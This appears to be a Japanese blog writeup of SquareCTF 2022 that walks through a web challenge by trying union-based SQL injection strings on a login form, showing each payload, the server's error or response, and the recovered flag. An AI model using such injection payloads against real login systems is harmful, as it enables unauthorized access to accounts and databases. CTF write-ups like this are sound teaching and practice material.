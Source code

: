```yaml
---
title: "SquareCTF 2022 Writeup"
date: 2022-11-20T15:00:00+09:00
lastmod: 2022-11-20T15:00:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">
<img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!"> <b><font color="teal">Save The Earth! - 地球環境を守ろう！</font></b> <img src="https://captureamerica.github.io/writeups/img/10_Nature_Themed_Icons_Cute_Earth_Icon.png" alt="Save The Earth!">
<img src="https://captureamerica.github.io/writeups/img/green_bar.png" alt="green_bar.png">

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Fsquarectf_2022%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://2022.squarectf.com/challenges](https://2022.squarectf.com/challenges)
<br /><br />

（最近、ちょくちょくCTFイベントに参加しているんですが、全然解けない事が多いです。。。全体的に難易度あがってません？？）

<br>
えーっと、50点のチャレンジ2つと、Sanity Checkを1問解いただけです。

101点を獲得し、最終順位は250位でした。<br />

<img src="https://captureamerica.github.io/writeups/img/squarectf_2022_score.png" alt="squarectf_2022_score.png">

<br><br>

とりあえず、記念に一個だけ、writeupを残しておきます。



<br /><br />
<br /><br />
## [Web]: Alex Hanlon Has The Flag! (50 points)
- - -
### Challenge
> Alex Hanlon has saved the flag in his account! See if you can figure out his username and then login as him. But just know that it will be impossible to brute force his password.
<br /><br />
[http://chals.2022.squarectf.com:4102](http://chals.2022.squarectf.com:4102)

<br>

### Solution
UsernameとPasswordが入力できるログインフォームが表示されます。

<br />
Usernameに`alex`、PasswordにテキトーなSQLiのパターンを入れたときに、
<pre>
Sorry, admin is the wrong user
</pre>
というエラーが返ります。`admin`なんて入力してないのに。。

<br />

実は、次に出てくるチャレンジ「Going In Blind」のDescriptionに、`Ok, the developers got smart, and figured out a way to prevent SQLi in the login page. Plus, they decided the flag shouldn't be hardcoded in the web application anymore. ` という記載があって、それもヒントになってますね。

おそらく、内部的に以下のようになっているっぽいです。
<pre>
SELECT * FROM user WHERE username = 'admin' and PASSWORD = '$password'
</pre>

<br /><br />
ここからはトライ＆エラーです。

入力値：
<pre>
' union select 1, schema_name, 3 from information_schema.schemata;-- -
</pre>

結果：
<pre>
java.sql.SQLException: The used SELECT statements have a different number of columns
</pre>

<br /><br />

入力値：
<pre>
' union select schema_name from information_schema.schemata;-- -
</pre>

結果：
<pre>
Sorry, information_schema is the wrong user
</pre>

<br /><br />


入力値：（テーブル名とカラム名は完全なGuessです）
<pre>
' union select username from user where id = 1;-- -
</pre>

結果：
<pre>
java.sql.SQLSyntaxErrorException: Unknown column 'id' in 'where clause'
</pre>

<br /><br />



入力値：
<pre>
' union select username from user where username like 'al%';-- -
</pre>

結果：
<pre>
Nope, try again!
</pre>

<br /><br />


入力値：
<pre>
' union select username from user where username <> 'admin';-- -
</pre>

結果：
<pre>
flag{470bbbc0519e4bc6987bb00bef24a97a}
</pre>

<br /><br />



Flag: `flag{470bbbc0519e4bc6987bb00bef24a97a}`


<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />
